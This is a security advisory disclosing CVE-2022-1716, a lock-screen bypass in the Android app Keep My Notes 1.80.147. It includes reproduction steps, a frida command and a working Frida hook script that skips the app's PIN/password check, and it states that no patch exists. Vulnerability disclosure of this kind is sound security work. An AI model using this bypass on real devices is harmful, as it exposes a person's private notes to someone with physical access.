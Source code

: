 ```yaml
---
slug: advisories/tyler/
title: Keep My Notes 1.80.147 - Improper Access Control
authors: Carlos Bello
writer: cbello
codename: tyler
product: Keep My Notes 1.80.147
date: 2022-06-01 20:30 COT
cveid: CVE-2022-1716
severity: 6.1
description: Keep My Notes 1.80.147  -  Improper Access Control
keywords: Fluid Attacks, Security, Vulnerabilities, Keep My Notes, Kitetech
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Keep My Notes 1.80.147 - Improper Access Control       |
| **Code name**         | [Tyler](https://en.wikipedia.org/wiki/Steven_Tyler)    |
| **Product**           | Keep My Notes                                          |
| **Affected versions** | Version 1.80.147                                       |
| **State**             | Public                                                 |
| **Release date**      | 2022-06-01                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | Improper Access Control                                                                                |
| **Rule**              | [115. Security controls bypass or absence](https://docs.fluidattacks.com/criteria/vulnerabilities/115) |
| **Remote**            | No                                                                                                     |
| **CVSSv3 Vector**     | CVSS:3.1/AV:P/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N                                                           |
| **CVSSv3 Base Score** | 6.1                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-1716](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-1716)                          |

## Description

An attacker with physical access to the victim's device can
bypass the application's password/pin lock to access user data.
This is possible due to lack of adequate security controls to
prevent dynamic code manipulation.

## Proof of Concept

It is important to know that for a successful exploitation,
the "Continue" button must be clicked repeatedly.

https://user-images.githubusercontent.com/51862990/168275718-5f8e230f-54f1-4c7c-8393-c58f0dcfda2b.mp4

### Steps to reproduce

1. Install and configure frida as indicated in the following [link](https://programmerclick.com/article/51481638343/).
2. Now just run this command to hook the `run` function so that it
   can be dynamically rewritten to bypass application protection.

   ```bash
   frida -U 'Keep My Notes' -l exploit.js
   ```

3. Now all you have to do is click the "Continue" button 3 or 4 times,
   then close the application and finally open it again.

### System Information

* Package Name: org.whiteglow.keepmynotes
* Application Label: Keep My Notes
* Mobile app version: 1.80.147
* OS: Android 8.0 (API 26)

## Exploit

```js
// exploit.js
Java.perform(() => {
    console.log("[+] Hooking LookScreenActivity - Class f - Method run");
    const LockScreenActivity = Java.use("org.whiteglow.keepmynotes.activity.LockScreenActivity");
    const f = Java.use("org.whiteglow.keepmynotes.activity.LockScreenActivity$f");
    f.run.implementation = () => {
        console.log("Bypass Lock Screen");
        LockScreenActivity.$new().d();
    }
})
```

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <http://www.kitetech.co/keepmynotes>

## Timeline

<time-lapse
  discovered="2022-05-12"
  contacted="2022-05-12"
  replied=""
  confirmed="2022-05-12"
  patched=""
  disclosure="2022-06-01">
</time-lapse>

